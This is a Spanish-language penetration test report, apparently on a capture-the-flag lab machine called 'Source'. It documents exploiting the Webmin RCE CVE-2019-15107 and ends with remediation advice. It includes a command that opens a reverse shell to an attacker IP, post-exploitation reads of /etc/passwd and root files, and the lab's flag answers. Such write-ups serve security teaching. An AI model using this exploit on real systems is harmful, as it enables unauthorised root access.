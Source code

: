 ```yaml
---
title: "Informe de Prueba de Penetración – Máquina Source"
author: "Raúl Durán Ortiz"
date: "2025-08-15"
classification: "Confidencial"
---
```


### **1. Resumen Ejecutivo**
### hola

En esta prueba de penetración, se evaluó la seguridad de la máquina "Source" (IP: `10.201.65.181`). Se descubrió una vulnerabilidad crítica de ejecución remota de comandos (RCE) no autenticada en el servicio Webmin, identificada como **CVE-2019-15107**. Esta vulnerabilidad fue explotada exitosamente desde la IP del atacante (`10.23.159.27`), otorgando acceso completo al sistema con privilegios de `root`.

**Hallazgo Principal:**
*   **Vulnerabilidad:** Ejecución Remota de Comandos en Webmin (CVE-2019-15107).
*   **Riesgo:** Crítico.
*   **Impacto:** Compromiso total del sistema, permitiendo a un atacante tomar control absoluto del servidor.

Se recomienda aplicar de manera urgente las medidas de remediación detalladas en la sección 6 de este informe, comenzando por la actualización inmediata del software Webmin.

---

### **2. Detalles de la Evaluación**

*   **Objetivo:** Evaluar la seguridad del host "Source" e identificar fallos que permitan el acceso no autorizado.
*   **Alcance (IP Víctima):** `10.201.65.181`
*   **IP del Atacante:** `10.23.159.27` (Desde esta IP se originaron las pruebas y se recibió la conexión inversa).

---

### **3. Metodología**

Se siguió una metodología estándar de pruebas de penetración, que incluye las siguientes fases:

1.  **Reconocimiento:** Escaneo de puertos y servicios con `nmap`.
2.  **Enumeración:** Análisis de los servicios descubiertos y búsqueda de directorios web con `gobuster`.
3.  **Explotación:** Aprovechamiento de la vulnerabilidad CVE-2019-15107 para obtener acceso.
4.  **Post-explotación:** Búsqueda de información sensible y demostración del impacto.

---

### **4. Fase de Enumeración: Hallazgos Detallados**

*   **Herramientas:** `nmap`, `gobuster`.
*   **Resultados del Escaneo de Puertos:**
    *   Puerto `10000/tcp` abierto, correspondiente al panel de administración de Webmin.
*   **Análisis de Servicios:**
    *   La versión de Webmin detectada (anterior a 1.930) es vulnerable a **CVE-2019-15107**, que permite la inyección de comandos en el parámetro `old` del fichero `password_change.cgi`.
*   **Descubrimientos Adicionales:**
    *   Se identificó un directorio `/source` que exponía el código fuente de una aplicación, lo que representa un riesgo de divulgación de información.

---

### **5. Fase de Explotación y Post-Explotación**

Se explotó exitosamente la vulnerabilidad CVE-2019-15107 utilizando un script público para establecer una *reverse shell* hacia la máquina del atacante.

*   **Comando de Explotación:**
    ```bash
    ./webmin_exploit.py 10.201.65.181 10000 10.23.159.27 4444
    ```
    Donde los parámetros son:
    -   `10.201.65.181`: IP de la máquina víctima (Source).
    -   `10000`: Puerto del servicio Webmin vulnerable.
    -   `10.23.159.27`: IP de la máquina atacante (LHOST) para recibir la conexión.
    -   `4444`: Puerto de escucha en la máquina atacante (LPORT).

*   **Resultado:**
    *   Se obtuvo una *reverse shell* con privilegios de `root`.
*   **Evidencias (Flags):**
    *   `user.txt`: `THM{SUPPLY_CHAIN_COMPROMISE}`
    *   `root.txt`: `THM{UPDATE_YOUR_INSTALL}`

**Comandos Ejecutados Post-Explotación:**

| Comando           | Descripción                            |
| :---------------- | :------------------------------------- |
| `whoami`          | Verificar el usuario actual (`root`).  |
| `uname -a`        | Obtener información del sistema operativo. |
| `cat /etc/passwd` | Listar los usuarios del sistema.       |
| `cat /root/root.txt` | Leer la flag del usuario `root`.       |

---

### **6. Recomendaciones y Remediación**

Se recomienda aplicar las siguientes medidas correctivas, priorizadas por nivel de riesgo:

| Prioridad | Recomendación                  | Detalle                                                                                      |
| :-------- | :----------------------------- | :------------------------------------------------------------------------------------------- |
| **Crítica** | **Actualizar Webmin**            | Actualizar a la última versión estable para mitigar la vulnerabilidad CVE-2019-15107.      |
| **Alta**    | **Restringir Acceso**            | Implementar un firewall para limitar el acceso al puerto 10000, permitiendo únicamente IPs autorizadas. |
| **Media**   | **Eliminar Código Fuente Expuesto** | Borrar el directorio `/source` para evitar la divulgación de información sensible.          |
| **Baja**    | **Monitorización y Alertas**     | Configurar alertas para detectar intentos de acceso no autorizados a puertos administrativos. |

---

### **7. Anexos**

*   **Anexo A:** Capturas de pantalla de la explotación (`evidencias/source/exploit.png`).
*   **Anexo B:** Logs de la herramienta (`evidencias/source/logs.txt`).
